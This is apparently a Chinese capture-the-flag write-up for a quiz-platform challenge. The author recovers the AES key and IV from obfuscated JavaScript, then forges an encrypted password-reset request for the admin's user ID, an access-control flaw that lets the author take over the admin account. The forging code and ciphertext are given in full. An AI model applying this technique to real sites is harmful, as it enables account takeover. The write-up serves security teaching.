







## 基本信息

- 题目名称： [GCCCTF 2025]守法公民
- 考点清单： js分析，越权漏洞

## 一、看到什么

进到题目是一个网络安全法知识问答平台，给出提示达到10000分就可以解锁大奖，但是每题才一分，要是直接答题肯定是来不及的。

先注册一个账号：

可以发现所有发送到后端的数据都是加密的，格式为：

```json
{
	“data”：“xxxxxxxxxxxxxxxxxx”
}
```

## 二、想到什么解题思路

点开浏览器调试页面发现js代码混淆，我们要先分析加密逻辑。

## 三、尝试过程和结果记录

调试页面有反调试，可以通过“Nerver pause here”把这些debugger失效



尝试重置密码，然后发现有一个函数名aesEncrypt，尝试在此打断点



可以看到传入的数据是：

```
{\"user_id\":\"8f599954593c4970b28dcac52ff9df71\",\"new_password\":\"1\",\"confirm_password\":\"1\"}
```

可能是重置密码时需要带上本人id，以及重置的密码然后发送给后端，这里可能存在越权漏洞。

在这里发现了CryptoJS的加密部分：



一般格式是这样的：

```
  const ciphertext = CryptoJS.AES.encrypt(data, key, {
    iv,
    mode: CryptoJS.mode.CBC,
    padding: CryptoJS.pad.Pkcs7
  });
```

这里需要key，data，iv，mode，padding

对照混淆代码看哪里是，然后去console打印

_`_0x2d4799`对应data，_`_0x41afe6`对应key，`_0x304595`对应iv，`CryptoJS['mode']['CBC']`就是mode，`CryptoJS['pad'][_0x3a81be(0x166)]`是padding

依次去打印，注意iv和key是字节，可以base64编码一下再输出



然后就可以据此构造加密数据包修改管理员密码，现在还差一个管理员的uuid才能构造。

想到公告栏是管理员发的，查看网页源代码，



由此可以开始构造包，先抓一个修改密码的包解密：

```javascript
JSON.parse(CryptoJS.AES.decrypt("ReZVa6ElTwQSlWYY5IlkbKE6VFBNyMc4KROEd1eVTV4rDn2Y1lc5LB6hOPv2w1YGqviCVP1kQJPI9dWxtfl1dkBeew5PcKzqDxexmT/HpAyH8vLrr2JBgTLJq5XyzPFO", CryptoJS.enc.Base64.parse("Qqk39LaSxFml8cwZLxFNCk1NXun6i2nXebB2rouRgNA="), {iv: CryptoJS.enc.Base64.parse("F1wyy3xQ42vTbm2JZ+6yow=="),mode: CryptoJS.mode.CBC,padding: CryptoJS.pad.Pkcs7}).toString(CryptoJS.enc.Utf8));
```

然后修改uuid和password，构造以下加密包：

```javascript
CryptoJS.AES.encrypt(JSON.stringify({user_id: '722e87fa398e4faeb228fe27d6b2a7a6', new_password: '2', confirm_password: '2'}), CryptoJS.enc.Base64.parse("Qqk39LaSxFml8cwZLxFNCk1NXun6i2nXebB2rouRgNA="), {iv: CryptoJS.enc.Base64.parse("F1wyy3xQ42vTbm2JZ+6yow=="), mode: CryptoJS.mode.CBC, padding: CryptoJS.pad.Pkcs7}).toString();
```



把这个发过去：

fFtkxNNsnuawsN2sm453BBWFPrv5dBY/rNGZBu9w1xJ4G2jta74pxOIFOc607+rMM8D+OIrDcP6i16QCkjHfO2P1UkMc2j0rXJcOAWQ33irprAdmLjAFKdj2M+pfVPaz



然后用 admin/2 登录

有一个分数设置，设置一个比较高的分数，然后随便答题就可以拿到flag了

